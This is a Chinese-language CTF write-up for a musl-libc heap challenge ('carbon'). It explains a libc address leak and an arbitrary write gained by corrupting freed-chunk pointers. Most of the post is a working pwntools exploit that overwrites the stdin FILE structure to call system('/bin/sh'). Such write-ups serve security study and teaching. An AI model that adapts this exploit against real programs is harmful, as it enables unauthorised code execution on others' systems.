 ```yaml
---
layout: post
title: "2020 xctf musl wp"
date:   2022-4-26
tags: [ctf_wp]
comments: true
author: wsxk
---
```


- [拿到libc地址](#拿到libc地址)
- [任意地址写](#任意地址写)
- [exp](#exp)




做的第一道musl pwn题

只能说虽然看起来很简单，其实还是挺困难的

不懂musl的可以看一看源码（

或者直接路由到我的源码分析
[musl1.1.24源码分析](https://wsxk.github.io/musl%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/)

直接看题目

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-26-XCTF_PWN_musl/1.png)

case 1 函数里面有且只有一个溢出机会

case 4 有且只有一个打印内容的机会


## 拿到libc地址

因为musl是静态堆内存（即它的初始堆就是在libc里的，所以你拿到了chunk的地址=拿到了libc的基址）

一开始申请一个0x20大小的chunk，根据musl的规律，它会从大chunk中切掉一部分（其中会保护mal某个位置的地址

## 任意地址写

任意地址写要用case1的溢出机会拿到

可以再申请3个0x20的chunk

free掉两个（不要连在一起，连在一起会自动合并），再申请第一个chunk

然后用case 1的覆写机会写后面chunk的地址（因为musl1.1.24基本不会对prev和next的合法性做检查，而且先进先出）

这时候可以把这个chunk的prev和next都改掉，这样mal.bins[0]会永远指向这个chunk（可以有任意地址写入的权限


## exp

    from pwn import *
    context.log_level='debug'

    io=process("./carbon")
    libc = ELF('./libc.so')

    def add(size,content,hello='N'):
        print("hello:"+hello)
        io.sendlineafter("> ",str(1))
        io.sendlineafter("What is your prefer size? >",str(size))
        io.sendlineafter("Are you a believer? >",hello)
        io.sendlineafter("Say hello to your new sleeve >",content)

    def delete(idx):
        io.sendlineafter("> ",str(2))
        io.sendlineafter("What is your sleeve ID? >",str(idx))

    def edit(idx,content):
        io.sendlineafter("> ",str(3))
        io.sendlineafter("What is your sleeve ID? >",str(idx))
        io.send(content)

    def examine(idx):
        io.sendlineafter("> ",str(4))
        io.sendlineafter("What is your sleeve ID? >",str(idx))

    # get libc_address
    #gdb.attach(io)
    add(0,'a') #0
    #gdb.attach(io)
    examine(0)

    libc_base = u64(io.recv(6).ljust(8,b'\x00'))-912-0xA0A80
    print(hex(libc_base))
    print("mal address: "+hex(libc_base+0xa0a80))
    libc.address=libc_base
    #gdb.attach(io)
    stdin = libc.address+0xA01C0
    brk = libc.address+0xA2FF0
    binmap = libc.address+0xA0A80
    bin  = libc.address + 0xA0A80+0x380
    system = libc.address+0x046BDA
    #gdb.attach(io)

    # procedure 2
    add(0x10,'a'*0xf)#1
    add(0x10,'b'*0xf)#2
    add(0x10,'c'*0xf)#3
    add(0x10,'d'*0xf)#4
    #gdb.attach(io)
    add(0x10,'e'*0xf) #5
    add(0x10,'f'*0xf) #6
    add(0x10,'g'*0xf) #7
    add(0x10,'h'*0xf) #8
    delete(1)
    delete(3)
    #gdb.attach(io)

    payload = b'i'*0x10+p64(0x21)*2+b'i'*0x10+p64(0x21)+p64(0x20)+p64(stdin-0x10)*2+p8(0x20) # set same but binmap is 0
    add(0x10,payload,hello='Y') #1
    add(0x10,b'\n') #3   bins[0] always point to #3
    #gdb.attach(io)

    delete(1)
    edit(3, p64(binmap - 0x20) * 2)
    add(0x10,b'\n')             #1
    delete(5) # set as non-empty bin

    edit(3, p64(brk - 0x10) * 2)
    add(0x10,b'\n')             #5
    delete(7) # set as non-empty bin

    edit(3,p64(bin-0x10)+p64(stdin-0x10))
    add(0x10,b'\n') 
    add(0x50,b'\n')#9
    edit(3,p64(bin-0x10)+p64(brk-0x10))
    add(0x10,b'\n')#10
    add(0x50,b'\n')#11
    edit(3,p64(bin-0x10)+p64(binmap-0x20))
    add(0x10,b'\n')#12
    add(0x50,b'\n')#13

    payload  = b"/bin/sh\x00"    # stdin->flags
    payload += b'X' * 0x20
    payload += p64(0xdeadbeef)  # stdin->wpos
    payload += b'X' * 8
    payload += p64(0xbeefdead)  # stdin->wbase
    payload += b'X' * 8
    payload += p64(system)      # stdin->write
    edit(9,payload)
    edit(11,p64(0xbadbeef - 0x20)+b'\n' )
    edit(13, b'X' * 0x10 + p64(0) + b'\n') 

    io.sendlineafter(">", '1')
    io.sendlineafter("What is your prefer size? >", '0')
    #gdb.attach(io)
    io.interactive()


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>
